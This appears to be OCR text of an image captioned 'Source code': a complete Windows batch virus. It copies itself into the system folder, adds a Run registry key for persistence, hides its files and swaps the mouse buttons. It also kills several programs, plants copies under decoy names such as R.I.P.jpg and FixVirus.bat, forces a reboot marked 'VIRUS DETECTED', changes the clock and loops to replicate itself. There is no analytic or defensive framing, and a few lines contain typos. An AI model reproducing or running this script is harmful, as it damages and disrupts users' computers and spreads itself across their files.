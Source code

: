 @Echo off
color 4
title 4
title R.I.P
start
start
start
start calc
copy %0 %Systemroot%\Greatgame > nul
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Greatgame /t REG_SZ
/d %systemroot%\Greatgame.bat /f > nul
copy %0 *.bat > nul
Attrib +r +h Greatgame.bat
Attrib +r +h
RUNDLL32 USER32.DLL.SwapMouseButton
start calc
cls
tskill msnmsgr
tskill LimeWire
tskill iexplore
tskill NMain
start
cls
cd %userprofile%\desktop
copy Greatgame.bat R.I.P.bat
copy Greatgame.bat R.I.P.jpg
copy Greatgame.bat R.I.P.txt
copy Greatgame.bat R.I.P.exe
copy Greatgame.bat R.I.P.mov
copy Greatgame.bat FixVirus.bat
cd %userprofile%My Documents
copy Greatgame.bat R.I.P.bat
copy Greatgame.bat R.I.P.jpg
copy Greatgame.bat R.I.P.txt
copy Greatgame.bat R.I.P.exe
copy Greatgame.bat R.I.P.mov
copy Greatgame.bat FixVirus.bat
start
start calc
cls
msg * R.I.P
msg * R.I.P
shutdown -r -t 10 -c "VIRUS DETECTED"
start
start
time 12:00
:R.I.P
cd %usernameprofile%\desktop
copy Greatgame.bat %random%.bat
goto RIP
